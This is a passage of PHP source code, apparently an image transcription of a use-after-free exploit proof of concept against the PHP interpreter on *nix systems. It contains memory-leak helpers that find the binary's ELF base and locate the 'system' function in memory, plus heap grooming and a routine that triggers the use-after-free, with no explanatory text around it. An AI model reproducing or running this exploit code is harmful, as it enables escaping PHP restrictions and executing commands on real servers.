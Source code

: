```php
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
```